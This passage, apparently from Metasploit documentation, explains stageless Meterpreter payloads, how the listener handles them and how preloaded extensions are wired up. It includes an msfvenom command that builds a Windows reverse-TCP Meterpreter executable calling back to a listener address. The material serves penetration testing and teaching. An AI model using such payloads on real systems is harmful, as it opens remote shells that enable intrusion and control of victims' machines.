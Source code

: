 ```
$ ./msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe
```

With a payload created, we can set up a listener which will handle the connection using `msfconsole`.

Note that the `EXTENSIONS` parameter isn't set in the handler. This is because the handler isn't responsible for them as they're already in the payload binary.
 
When a session is established, you'll also note the lack of the "Sending stage ..." message! This shows that the upload of _stage1_ didn't happen as it's not needed. If the payload that was invoked also contained `stdapi` and `priv`, then absolutely no uploads have occurred at this point.
 
Congratulations, you're dancing with stageless Meterpreter!
 
At this point, all of the pre-loaded extensions have been loaded into Meterpreter and are available for use. However, Metasploit is yet to know about them. To initiate client-site wiring of any of the pre-loaded extensions, the user can just type `use <extension>` just like they used to. Metasploit will check to see if the extension already exists in the target instance, and if it does, it will skip the extension upload and just wire-up the functions on the client side. If the extension is missing, then it will upload it and wire-up the functions on the fly just like it always has done.
 
If you're working with `meterpreter_reverse_https`, you'll notice that when new shells come in they appear just like an orphaned instance. This is expected behaviour, because a stageless session can't and won't look any different to an old session that hasn't been in touch with Metasploit for a while.
